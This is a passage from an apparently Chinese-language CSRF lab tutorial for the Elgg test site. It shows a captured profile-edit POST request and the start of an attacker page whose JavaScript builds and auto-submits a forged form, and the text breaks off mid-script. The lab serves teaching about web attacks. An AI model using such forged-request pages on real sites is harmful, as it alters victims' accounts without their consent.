 ![图片描述信息](img/userid9094labid936time1430186502460.jpg)

这里是抓取到的数据包：

```
 POST /action/profile/edit HTTP/1.1
    Host: www.csrflabelgg.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101 Firefox/23.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://www.csrflabelgg.com/profile/alice/edit
    Cookie: Elgg=ks91qtcsis87selokqauqt96p1
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 569
    __elgg_token=17fb7abf0ec7666aae76d5b03372203f&__elgg_ts=1429842430&name=Alice&description=%3Cp%3Etest%3C%2Fp%3E&accesslevel%5Bdescription%5D=2&briefdescription=test&accesslevel%5Bbriefdescription%5D=2&location=test&accesslevel%5Blocation%5D=2&interests=test&accesslevel%5Binterests%5D=2&skills=test&accesslevel%5Bskills%5D=2&contactemail=test%40email.com&accesslevel%5Bcontactemail%5D=2&phone=123456&accesslevel%5Bphone%5D=2&mobile=123456&accesslevel%5Bmobile%5D=2&website=http%3A%2F%2Ftest.com&accesslevel%5Bwebsite%5D=2&twitter=test&accesslevel%5Btwitter%5D=2&guid=39 
```

通过分析我们可以得知编辑用户需要的请求，其中最重要的就是 guid，用户的 id 标识符；于是 Alice 就写了如下代码并发送给 Boby 用户进行攻击.

```
 sudo vim /var/www/CSRF/Attacker/csrf.html 
```

这里是代码：

```
 <html><body><h1>
    This page forges an HTTP POST request.
    </h1>
    <script type="text/javascript">
    function post(url,fields)
    {
        //create a <form> element.
        var p = document.createElement("form");
        //construct the form
        p.action = url;
        p.innerHTML = fields;
        p.target = "_self";
        p.method = "post";

        //append the form to the current page.
```